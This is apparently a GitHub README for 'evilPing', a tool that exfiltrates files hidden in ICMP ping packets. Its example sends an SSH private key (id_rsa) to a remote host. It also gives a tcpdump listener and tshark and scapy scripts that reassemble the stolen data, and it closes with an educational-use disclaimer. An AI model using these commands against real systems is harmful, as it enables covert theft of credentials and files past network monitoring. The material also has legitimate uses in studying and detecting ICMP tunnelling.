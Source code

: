 # evilPing
Sending file through ICMP packet using PING



### Usage
```
Usage: ./evilPing.sh <file> <host>
```
Example
```
./evilPing.sh id_rsa 192.168.1.2
```

### Listening server for receiving ICMP packet using TCPdump
```
sudo tcpdump -i any -s 0 'icmp' -w evilPing-received.pcap
```

### Extract data with tshark
```
tshark -r evilPing-received.pcap -T fields -e data -Y ip.src==192.168.1.1 -Y icmp.type==8 | cut -c 17-48 | xxd -r -p
```

### Extract data with scapy
```
#!/usr/bin/env python3

from scapy.all import *

src_ip = '192.168.56.1'
packet = rdpcap('evilPing-received.pcap')
data = b''

for pkt in packet:
    if pkt[IP].src == src_ip and pkt[ICMP].type == 8:
        data += pkt[Raw].load[16:32]

with open('output', 'wb') as w:
    w.write(data)
```

#### legal disclaimer
This tools is for educational purpose only, usage of evilPing for attacking targets without prior mutual consent is illegal. Developers assume no liability and are not responsible for any misuse or damage caused by this program
